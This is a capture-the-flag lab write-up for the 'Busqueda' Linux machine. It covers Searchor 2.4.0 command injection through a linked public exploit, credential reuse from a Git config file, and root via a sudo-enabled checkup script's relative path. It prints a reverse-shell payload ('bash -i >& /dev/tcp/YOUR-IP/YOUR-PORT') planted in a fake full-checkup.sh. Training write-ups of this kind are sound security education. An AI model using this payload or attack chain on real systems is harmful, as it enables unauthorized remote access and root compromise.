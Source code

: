 # Busqueda Easy Linux Machine Write Up

![image](https://github.com/user-attachments/assets/725bea9b-f9af-49ed-875d-b5c702a279fe)


## Machine Description

Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module. By leveraging this vulnerability, we gain user-level access to the machine. To escalate privileges to `root`, we discover credentials within a `Git` config file, allowing us to log into a local `Gitea` service. Additionally, we uncover that a system checkup script can be executed with `root` privileges by a specific user. By utilizing this script, we enumerate `Docker` containers that reveal credentials for the `administrator` user&amp;amp;#039;s `Gitea` account. Further analysis of the system checkup script&amp;amp;#039;s source code in a `Git` repository reveals a means to exploit a relative path reference, granting us Remote Code Execution (RCE) with `root` privileges. 

## Vulnerability Found

1. Arbitrary CMD Injection in `Searchor` python module version 2.4.0
2. Insecure stored Git credentials on located in the server
3. System checkup script can be executed with root privilege

   
## Step to Re-produce

### Enumeration

### Network Enumeration

I used `nmap` with `-p-, -T5, -O, -oN` tags to enumerate the services that available in the network. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/7c394f87-2128-467f-abaa-fa6b958092a4">
</div>

<div align="center">
  <p><span class="bolded"> Nmap Output</span></p>
</div>
</br>

From the output, I found that this network have 2 open services, ssh on port 22 and http on port 80.

### Web Enumeration

After found out that this network has http service, I looked into it. The interesting one is at the bottom of the page, which was showing what this web powered by.

<div align="center">
  <img src="https://github.com/user-attachments/assets/acbeb47d-8995-4de4-abbc-ebbd2ae335e6">
</div>

<div align="center">
  <p><span class="bolded"> Searchor Version</span></p>
</div>
</br>

As shown the above photo, I knew that this web used **Flask** and **Searchor version 2.4.0**. I was directly searching for the **Searchor** exploit and found out this version of Searchor is vulnerable to Aribitrary CMD Injection in the `eval()` function. I used this PoC: [Searchor Exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection).

### Exploitation

In this stage, after finding the exploit for **Searchor 2.4.0**, I followed through the PoC and ran the exploit.sh that provided in the PoC Github. 

Command based on the PoC:

    ./exploit.sh site.com <Your-IP> <Your-Port>

<div align="center">
  <img src="https://github.com/user-attachments/assets/fb4235f6-7edc-4be9-92f7-672df2564429">
</div>

<div align="center">
  <p><span class="bolded"> Running the Script</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/858b39ad-1cff-4d12-adad-062cb00b3b46">
</div>

<div align="center">
  <p><span class="bolded"> Gain user-access level</span></p>
</div>
</br>

After gaining access to user-level, I found the cat.txt and read it.

### Privilege Escelation

In this stage, to perform privilege escelation, I found a `.git` folder in the `/var/www/app` directory. In `config` file, I found the url and credentials to login into `Gitea`.

<div align="center">
  <img src="https://github.com/user-attachments/assets/cae3212e-0430-49f6-bedc-1af3edb12bda">
</div>

<div align="center">
  <p><span class="bolded"> Gitea URL and credential</span></p>
</div>
</br>

I tried to looked and logged in into the gitea web but found nothing interesting there (maybe I am not detailed enough). 

I connected into ssh using user `svc` and password that was found earlier(gitea cody's password). I ran `sudo -l` to see what file and command that user `svc` may run.

<div align="center">
  <img src="https://github.com/user-attachments/assets/f1a5dbf8-fc95-4e94-ad9b-a8bc5fe1ce7a">
</div>

<div align="center">
  <p><span class="bolded"> Allowed run as root for svc</span></p>
</div>
</br>

I tried to run the command `sudo /usr/bin/python3 /opt/scripts/system-checkup.py *`, following the shown above, I found this:

<div align="center">
  <img src="https://github.com/user-attachments/assets/ce99808b-4860-494c-97f1-4aa0b8bc3623">
</div>

<div align="center">
  <p><span class="bolded"> Choices system checkup</span></p>
</div>
</br>

When I looked into `/opt/script` directory, I found out that it was a directory for a shell script that can be run.

<div align="center">
  <img src="https://github.com/user-attachments/assets/6be8d50f-a6e1-48a3-be1c-5069e746cd4f">
</div>

<div align="center">
  <p><span class="bolded"> Scripts</span></p>
</div>
</br>

It got me thinking for a while. But, I tried to create a new `full-checkup.sh` file in /home/user directory that containing bash command for reverse shell so that when I run it, the bash will be run.

Payload:

    #! /bin/bash bash -i >& /dev/tcp/YOUR-IP/YOUR-PORT 0>&1

I set up a netcat listener and ran the script using the same command like before, the difference was only I didn't use `*` because I chose the `full-checkup` to run the full-checkup script containing reverse shell.

<div align="center">
  <img src="https://github.com/user-attachments/assets/66622d61-360d-4261-981b-b979f18a52f2">
</div>

<div align="center">
  <p><span class="bolded"> Running the script</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/a1fb8ba5-d3fe-4c1f-9e6d-65120ab198de">
</div>

<div align="center">
  <p><span class="bolded"> Gaining root access</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/0c124544-0954-4066-8c38-4626b8adab5a">
</div>

<div align="center">
  <p><span class="bolded"> Root.txt</span></p>
</div>
</br>


Thank you for reading!

